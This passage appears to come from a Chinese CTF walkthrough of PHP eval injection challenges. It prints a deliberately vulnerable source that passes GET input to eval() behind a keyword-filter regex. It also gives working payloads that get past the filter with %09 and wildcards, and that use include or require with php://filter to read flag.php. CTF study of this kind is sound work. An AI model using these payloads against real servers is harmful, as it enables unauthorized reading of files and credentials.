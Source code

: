 %09绕过空格，过滤了`.`和一些关键字，通配符*绕

```
?c=echo%09`tac%09fl*`;
```

## 32-36 文件包含+伪协议

32

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:56:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

文件包含(include/require)+伪协议读文件：
因为分号被过滤了，这里改用?>闭合

```
?c=include%0a$_GET[1]?>
&1=php://filter/read=convert.base64-encode/resource=flag.php
```

> 丢一下以前做的笔记
>
> 33：
>
> ```
> ?c=require%0a$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
> ```
>
> 34、35：
> 过滤了:、(
> 只能使用`语言结构`(无需括号)如：echo、print、isset、unset、include、require
> 1、
>
> ```
> ?c=print%0a$_GET[1]?>&1=phpinfo();
> ```
>
> 传入eval($c) --》无法执行
> 原因是此处phpinfo();作为字符段，而不是代码段
> 2、
>
> ```
> ?c=include%0a$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php